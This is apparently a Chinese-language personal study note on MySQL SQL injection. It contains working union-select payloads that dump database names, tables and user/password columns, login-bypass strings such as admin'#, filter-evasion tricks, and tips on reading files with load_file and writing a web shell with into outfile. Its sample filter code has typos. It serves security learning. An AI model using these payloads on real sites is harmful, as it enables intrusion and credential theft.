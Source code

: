 #### mysql介绍及操作

增删语句

information_schema是一个很重要的库，information_schema.tables

- mysql的一些函数

  ```sql
  system_user() # 系统用户名
  user()	# 用户名	----
  current_user
  session_user()	# 连接数据库的用户名
  database()	# 数据库名	-----
  version()	# 数据库版本	-----
  load_file()	# 读取本地文件
  @@datadir	# 读取数据库路径
  @@basedir	# Mysql安装路径
  @@version_compile_os # OS
  ```

- mysql数据库连接

  ```php
  <?php
      $host='localhost';	//数据库地址
  	$database='sui';	//数据库名称
  	$user='root';		//帐户
  	$passed='';			//密码
  	$webml='/0/';		//安装文件夹
  ?>
  ```

  如果是root权限的话，可以进一步提权；config、inc、data、common.inc

  ==了解各种cms==

#### mysql注入原理

1. 注入形成原理

   get接收一个值，看他有没有过滤；

2. 简单防注入实现

   ```php
   function check_sql($x)
   {
       $inject = array('and','union','select','from','or');
       $i = str_replace($injection, "", $x);
       return i;
   }
   
   $id = $_GET['id'];
   select * from admin where id=$id;
   
   function inject_check($str)
   {
       $temp = eregi('and|select|insert|update|delete|\'|\/\*|\*|\.\.\/|\.\/|union|into',$str);
       if($temp){
           echo "输入非法内容";
           exit();
       }else{
           return $str;
       }
   }
   ```

3. 绕过防注入

   比如改变大小写，嵌套关键字aandnd

#### mysql注入其他操作

1. 判断注入

2. 判断列数 

   oder by 10，返回正常就表示有10列

3. 联合查询

   `id=13 union select 1,2,3,4,5,6,7,8,9,10`

   按理说，如果前面查询出来的不是数字，那他和后面的10个数字中的某一个类型就会不匹配，就应该报错；

   但是我的navicat并没有报错；重点就是利用这个报错显示信息；  sqlserver没有这些；  *第二列是字符类型*

   - 查询版本  

     `id=13 union select 1,version(),3,4,5,6,7,8,9,10`

   - 查询用户

     `id=13 union select 1,user(),3,4,5,6,7,8,9,10`

   - 查询数据库

     `id=13 union select 1,database(),3,4,5,6,7,8,9,10`

   - 查询表

     `id=13 union select 1,group_concat(table_name),3,4,5,6,7,8,9,10 from information_schema.tables where table_shema=xy # xy应转换为16进制`

     直接'xy'不也行嘛？

   - 查询列

     `id=13 union select 1,group_concat(column_name),3,4,5,6,7,8,9,10 from information_schema.columns where table_name='user'`

   - 查询数据

     `id=13 union select 1,group_concat(name,0x7e,pwd),3,4,5,6,7,8,9,10 from user` 

     0x7e是一个特殊字符 ~

- mysql4.0渗透

  它没有information_schema表，所以不能爆出所有的表名列名；只能用字典爆破；

  利用sqlmap读文件；

- mysql显错注入

  *先百度，视频里就是直接复制粘贴就用了*

- 后台绕过

  有时，#把后面的sql语句注释掉

  ```sql
  select * from user where username='' and password=''
  # 输入admin'#
  # 输入admin' or '1=1
  # 多试试几个闭合
  ```

- mysql读写函数的使用

  load_file()函数，参数是绝对路径；用法和之前的暴库差不多；

  那绝对路径怎么找？ `c:/windows/system32/instsrv/metabase.xml`

  > 报错显示；google hack搜索warning信息； 遗留文件phpinfo info test php； 漏洞爆路径；读取配置文件；
  >
  > 上传报错比较容易：上传一个错误的东西，可能会把绝对路径爆出来；

- 利用注入漏洞执行系统命令

  必须要root权限； `into outfile 'c.php'`

  可以导入一句话；可以创建用户；

- 魔术引号与宽字节注入

  宽字节注入：是PHP的配置问题，`magic_quotes_runtime`；'会变成\'

  sqlmap——unmagicquotes；`--tamper unmagicquotes.py`





> 正则表达式还是需要熟悉，尤其是转义这一块
>
> url编码需要了解；
>
> 转16进制可以绕过 ' 被过滤的情况
>
> mysql显错注入的了解；



